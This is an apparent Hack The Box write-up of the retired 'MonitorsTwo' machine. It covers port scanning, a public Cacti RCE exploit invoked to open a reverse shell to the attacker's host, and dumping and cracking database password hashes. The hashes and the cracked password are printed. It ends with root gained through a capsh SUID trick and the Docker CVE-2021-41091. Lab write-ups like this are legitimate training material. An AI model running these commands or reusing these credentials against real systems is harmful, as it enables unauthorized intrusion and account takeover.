


### retired on (02/09/2023)
# Summary: 
## foothold:
Vulnerable web service which results in a www-data shell inside a docker container. 
## user:
using docker's `entrypoint.sh` script we're able to obtain DB credentials and dump all user's password hashes.
with `hashcat` its possible to crack one of the hashes and get user credentials for SSH.
## root:
Upon logging in with the user to SSH, we see a prompt for `you have mail`. checking the mail shows that the system is vulnerable to several CVE's.
One of the CVE's is about `moby` an open framework created by Docker to assemble specialized container systems.
with `www-data` shell we're able to escalate our privileges using SUID exploitation on `capsh`. and change the permissions of `/bin/bash` inside the container.
which in turn un-privileged users on host machine can find and execute said SUID binary (`/bin/bash`)
# Foothold
```
┌──(kali㉿kali)-[~/HTB/Machines/MonitorsTwo]
└─$ sudo masscan -p1-65535 10.129.109.77 --rate=3000 --wait=0 -e tun0
[sudo] password for kali: 
Sorry, try again.
[sudo] password for kali: 
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2023-09-02 12:48:57 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 80/tcp on 10.129.109.77                                   
Discovered open port 22/tcp on 10.129.109.77
```

```
┌──(kali㉿kali)-[~/HTB/Machines/MonitorsTwo]
└─$ sudo nmap 10.129.109.77 -sV -sC -p 22,80                         
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-02 08:58 EDT
Nmap scan report for 10.129.109.77
Host is up (0.098s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.50 seconds
```

### PORT 80
visiting port 80 we see a login prompt with Version and software name available.


searching on google the software and version we're able to find an exploit on github. 

![[Pasted image 20230902160030.png]]
https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22

The exploit requires url, local host and local port. for a reverse shell endpoint.
![[Pasted image 20230902160445.png]]
executing `python3 CVE-2022-46169.py -u http://10.129.109.77/ --LHOST=10.10.16.7 --LPORT=80`
![[Pasted image 20230902160402.png]]

should give us a shell as www-data user.

# USER
## System enumeration
after a quick glimpse it seems we're inside a docker container.
![[Pasted image 20230902160546.png]]

which in turn means there could be an entry script on root directory
![[Pasted image 20230902162019.png]]
which there is.

checking the contents reveals credentials for the database.
![[Pasted image 20230902161019.png]]

## DB enumeration
in order to interact with the DB we need a "full" shell. 
couldn't find python on system, `script` is another way to get a full interactive shell. 
```
script /dev/null -qc /bin/bash
(inside the nc session) CTRL+Z
stty raw -echo; fg;
```

with the shell we're able to login to the db. with the following command.
```
mysql --host=db --user=root --password=root cacti
```
![[Pasted image 20230902161555.png]]
next thing to do is to check which tables are available.
![[Pasted image 20230902161609.png]]

`user_auth` is interesting.
![[Pasted image 20230902161623.png]]

selecting the contents of the table, we get hashes for `admin` and `marcus`
![[Pasted image 20230902161640.png]]
## Cracking hashes
the hashes:
```
admin $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
marcus $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

now we can use hashcat to crack the hashes.
```
hashcat -d 1 -m 3200 hashes/HTB/MonitorTwo.txt rockyou.txt
```
cracked hash:
```
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
```

The cracked hash belongs to marcus.
since SSH port is open we can try these credentials.
![[Pasted image 20230902162834.png]]
which indeed are valid.

# ROOT
### Potential LPE
when connecting with SSH we get a prompt that we have mail.
![[Pasted image 20230902162855.png]]
mail will be saved on `/var/mail/<USER>`
![[Pasted image 20230902163017.png]]
![[Pasted image 20230902163038.png]]
reading the mail we can conclude that there are couple vulnerabilities on the system.
checking `CVE-2021-41091` exploit, which is an exploit for moby for software containerization by docker.
searching online we're able to find an exploit available on github 
![[Pasted image 20230902163344.png]]
The exploit will check if the host is vulnerable and iterate over the available overlay2 filesystems. If the system is indeed vulnerable
but before running the exploit we got to get root on the docker session, and change the permissions of `/bin/bash`. then run the exploit from host machine. 
the script will attempt to gain root access by spawning a shell in the vulnerable path (the filesystem of the Docker container where you executed the setuid command on /bin/bash).
This CVE requires root on docker container in order to exploit.
![[Pasted image 20230902163902.png]]


### Root on docker
after searching for vulnerabilities in the docker container, I've found that there is binary with SUID.
![[Pasted image 20230902164728.png]]

`/sbin/capsh`  has SUID bit on.
![[Pasted image 20230902165019.png]]
using GTFO bin we can exploit the SUID bit.
https://gtfobins.github.io/gtfobins/capsh/

![[Pasted image 20230902165352.png]]

so basically running `/sbin/capsh --gid=0 --uid=0 --`
should result in root shell
![[Pasted image 20230902165527.png]]
next is to set SUID bit on /bin/bash
![[Pasted image 20230902165602.png]]

the only thing left to do is to run the exploit from the host machine.
### Root on host
![[Pasted image 20230902163612.png]]
so we're gonna download the exploit using python server(from my attack machine).
![[Pasted image 20230902165755.png]]

![[Pasted image 20230902165713.png]]

running the exploit:
![[Pasted image 20230902165937.png]]
the exploit didn't spawn us a root shell, but showed the vulnerable path to `/bin/bash` 
![[Pasted image 20230902170009.png]]

now running `/bin/bash -p` from that path will grant us root user.
![[Pasted image 20230902165953.png]]

# additional information
more on root exploit:
`https://www.cyberark.com/resources/threat-research-blog/how-docker-made-me-more-capable-and-the-host-less-secure`
